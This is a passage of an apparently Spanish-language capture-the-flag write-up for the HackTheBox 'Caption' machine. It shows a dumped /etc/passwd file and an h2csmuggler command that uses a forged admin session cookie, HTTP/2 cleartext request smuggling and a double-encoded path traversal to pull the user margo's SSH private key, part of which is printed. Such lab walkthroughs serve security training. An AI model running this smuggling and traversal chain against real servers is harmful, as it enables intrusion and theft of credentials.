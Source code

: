 ```bash
lp:x:7:7:lp:/var/spool/lpd:/usr/sbin/nologin
mail:x:8:8:mail:/var/mail:/usr/sbin/nologin
news:x:9:9:news:/var/spool/news:/usr/sbin/nologin
uucp:x:10:10:uucp:/var/spool/uucp:/usr/sbin/nologin
proxy:x:13:13:proxy:/bin:/usr/sbin/nologin
www-data:x:33:33:www-data:/var/www:/usr/sbin/nologin
backup:x:34:34:backup:/var/backups:/usr/sbin/nologin
list:x:38:38:Mailing List Manager:/var/list:/usr/sbin/nologin
irc:x:39:39:ircd:/run/ircd:/usr/sbin/nologin
gnats:x:41:41:Gnats Bug-Reporting System (admin):/var/lib/gnats:/usr/sbin/nologin
nobody:x:65534:65534:nobody:/nonexistent:/usr/sbin/nologin
_apt:x:100:65534::/nonexistent:/usr/sbin/nologin
systemd-network:x:101:102:systemd Network Management,,,:/run/systemd:/usr/sbin/nologin
systemd-resolve:x:102:103:systemd Resolver,,,:/run/systemd:/usr/sbin/nologin
messagebus:x:103:104::/nonexistent:/usr/sbin/nologin
systemd-timesync:x:104:105:systemd Time Synchronization,,,:/run/systemd:/usr/sbin/nologin
pollinate:x:105:1::/var/cache/pollinate:/bin/false
sshd:x:106:65534::/run/sshd:/usr/sbin/nologin
syslog:x:107:113::/home/syslog:/usr/sbin/nologin
uuidd:x:108:114::/run/uuidd:/usr/sbin/nologin
tcpdump:x:109:115::/nonexistent:/usr/sbin/nologin
tss:x:110:116:TPM software stack,,,:/var/lib/tpm:/bin/false
landscape:x:111:117::/var/lib/landscape:/usr/sbin/nologin
fwupd-refresh:x:112:118:fwupd-refresh user,,,:/run/systemd:/usr/sbin/nologin
usbmux:x:113:46:usbmux daemon,,,:/var/lib/usbmux:/usr/sbin/nologin
lxd:x:999:100::/var/snap/lxd/common/lxd:/bin/false
haproxy:x:114:120::/var/lib/haproxy:/usr/sbin/nologin
varnish:x:115:121::/nonexistent:/usr/sbin/nologin
vcache:x:116:121::/nonexistent:/usr/sbin/nologin
varnishlog:x:117:121::/nonexistent:/usr/sbin/nologin
margo:x:1000:1000:,,,:/home/margo:/bin/bash
ruth:x:1001:1001:,,,:/home/ruth:/bin/bash
_laurel:x:998:998::/var/log/laurel:/bin/false

```

pues que lo vemos
por lo que ahora es cuestion de ver si sacamos el id_rsa de margo

```bash
python3 .\h2csmuggler.py -x http://caption.htb http://caption.htb/download?url=http://127.0.0.1:3923/.cpr//%252Fhome%252Fmargo%252F.ssh%252Fid_rsa  -H 'Cookie: session=eyJ0eXAiOiJKV1QiLCJhbGciOiJIUzI1NiJ9.eyJ1c2VybmFtZSI6ImFkbWluIiwiZXhwIjoxNzM3ODMzMDE1fQ.dM4ER4PO6PF3ds83BD9rdEweUpCRxtazbHSDLR7BgJQ'
[INFO] h2c stream established successfully.
:status: 200
server: Werkzeug/3.0.1 Python/3.10.12
date: Sat, 25 Jan 2025 18:43:40 GMT
content-type: text/html; charset=utf-8
content-length: 4316
x-varnish: 32927
age: 0
via: 1.1 varnish (Varnish/6.6)
x-cache: MISS
accept-ranges: bytes



-----BEGIN OPENSSH PRIVATE KEY-----
b3BlbnNzaC1rZXktdjEAAAAABG5vbmUAAAAEbm9uZQAAAAAAAAABAAAAaAAAABNlY2RzYS1zaGEy
LW5pc3RwMjU2AAAACG5pc3RwMjU2AAAAQQTGOXexsvvDi6ef34AqJrlsOKP3cynseip0tX/R+A58
9sSkErzUOEOJba7G1Ep2TawTJTbWb2KROYrOYLA0zysQAAAAoJxnaNicZ2jYAAAAE2VjZHNhLXNo
YTItbmlzdHAyNTYAAAAIbmlzdHAyNTYAAABBBMY5d7Gy+8OLp5/fgComuWw4o/dzKex6KnS1f9H4
Dnz2xKQSvNQ4Q4ltrsbUSnZNrBMlNtZvYpE5is5gsDTPKxAAAAAgaNaOfcgjzxxq/7lNizdKUj2u
```